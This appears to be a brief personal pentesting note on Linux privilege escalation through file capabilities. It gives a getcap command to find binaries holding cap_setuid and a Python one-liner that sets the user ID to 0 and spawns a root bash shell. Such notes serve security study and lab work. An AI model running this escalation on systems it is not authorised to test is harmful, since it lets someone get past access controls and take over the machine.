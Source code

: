 ***Detection***
[[privilege escalation]] technique taking advantage of the capabilities functionality.
- In command prompt type: 
```
   getcap -r / 2>/dev/null
```

- From the output, notice the value of the “cap_setuid” capability.

***Exploitation***
- In command prompt type:
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
- Enjoy root!